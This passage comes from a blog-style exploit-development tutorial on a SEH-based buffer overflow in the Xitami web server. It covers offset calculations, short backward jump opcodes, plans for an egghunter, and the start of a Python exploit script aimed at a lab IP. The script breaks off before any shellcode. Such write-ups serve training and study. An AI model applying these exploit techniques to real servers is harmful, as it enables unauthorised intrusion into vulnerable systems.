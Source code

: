 ![](/assets/images/CTP/nooverwrite.JPG)

As you can see, it currently holds the value `00450800`. This would translate to: `\x00\x08\x45\x00` in our script. So what we end up doing is just overwriting the `450800` value with our `seh` variable and let the `00` on the end remain giving us our valid address. 

## Jumping

After we take our `POP POP RET` we end up as planned in our `nseh` 4 byte space of `CCCC`. Unlike our normal situation where we jump over the current SEH and into our `D` buffer, we will have to jump backwards since there is no `D` buffer for us to jump forward into. 

Let's first do some offset calcuations to see how large our buffer space is.

### Offset.py

To do our calculations, I created a [little offset helper script](https://github.com/h0mbre/CTP/tree/master/Offset). We will first need to examine the stack and see what we have to work with. 

![](/assets/images/CTP/xitamistack.JPG)

It looks like our `A` buffer begins at `0006FE48`; however, around `0006FE94` and `0006FEA4` we see that our buffer has been partially corrupted and filled with values of `00000055` and `FFFFFFFF`. So we'll have to make consider our `A` buffer as starting at `0006FEA4`. Let's let `offset.py` determine our distance from where we currently sit to the "top" of our `A` buffer. 

![](/assets/images/CTP/xitamistart.JPG)

We currently sit at `0006FF78` so let's feed these values to `offset.py`. 
```terminal_session
root@kali:~/OSCE/ # offset                                         
Enter Address #1: 6ff78
Enter Address #2: 6fea4
[+] Hex offset: 0xd4
[+] Decimal offset: 212
[-] ESP Sub Adjust Opcodes: \x54\x58\x2c\x6a\x2c\x6a\x50\x5c
[+] ESP Add Adjust Opcodes: \x54\x58\x04\x6a\x04\x6a\x50\x5c
```

The script tells us our offset is 212 and since this is beyond a short jump, we do not get any `JMP` opcodes back. 212 bytes is definitely not going to be enough for shellcode. We will have to use an egghunter. An egghunter is typically 32 bytes. Let's jump backwards 50 bytes to make sure we have enough space for the egghunter and some cushion to spare. Once again, we can use `offset.py`. 

This time, we use the `-j, --jump` flag to tell `offset.py` that we want to get opcodes for a short jump. We then tell it the offset in decimal that we want to achieve. 
```terminal_session
root@kali:~/OSCE/ # offset -j                                           
Enter offset in decimal: 50
[-] Negative jump opcodes: \xeb\xcc
[+] Positive jump opcodes: \xeb\x32
```

Excellent, `offset.py` gives us our negative jump codes and we can put this value into `nseh`. Let's update our exploit script. Note that we added NOPs to `nseh` just to pad out the rest of the 4 byte value. 
```python
import socket
import sys

host = "192.168.1.201"
port = 80

seh = "\x84\xf5\x44"
nseh = "\xeb\xcc\x90\x90"

#PO @ 304
```